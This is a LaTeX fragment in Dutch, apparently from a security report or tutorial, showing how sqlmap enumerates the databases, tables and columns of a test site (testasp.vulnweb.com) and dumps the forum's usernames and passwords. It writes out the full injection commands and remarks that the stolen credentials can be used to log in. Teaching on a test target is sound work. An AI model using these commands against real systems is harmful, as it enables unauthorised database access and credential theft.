 \documentclass[pdftex,a4paper,12pt]{report}
\begin{document}
\begin{figure}[H]
\begin{center}
\includegraphics[scale=0.60]{img/SQLDatabasen}
\end{center}
\caption{Beschikbare databases.}
\label{img:SQLDatabasen}
\end{figure}

Nu kan er een tabel worden gekozen om verder te gaan met het volgende commando om de verschillende soorten tabellen in die specifieke database op te vragen:
\begin{verbatim} sqlmap -u http://testasp.vulnweb.com/showforum.asp?id=0 -D acuforum 
--tables \end{verbatim}

Zo zijn alle tabellen zichtbaar en ook hier wordt er weer één uitgekozen om te kijken welke kolommen er precies allemaal in deze tabel zitten:
\begin{verbatim} sqlmap -u http://testasp.vulnweb.com/showforum.asp?id=0 -D acuforum 
-T users --columns \end{verbatim}

Nu de kolommen zichtbaar zijn, kan er informatie worden opgevraagd uit deze kolommen. In dit voorbeeld is het dus mogelijk om de gebruikersnaam en wachtwoord op te vragen:
\begin{verbatim} sqlmap -u http://testasp.vulnweb.com/showforum.asp?id=0 -D acuforum 
-T users -C uname,upass \end{verbatim}

Dit geeft een lijst van 112 velden, zoals te zien is in figuur~\ref{img:SQLData}. Blijkbaar zijn er 112 gebruikers die een account hebben op dit forum. Het is nu mogelijk om al deze gegevens te gebruiken om in te loggen op dit forum. De data worden ook automatisch lokaal opgeslagen, in dit geval is dit in \textit{/usr/share/sqlmap/output/testasp.vulnweb.com}.
\end{document}
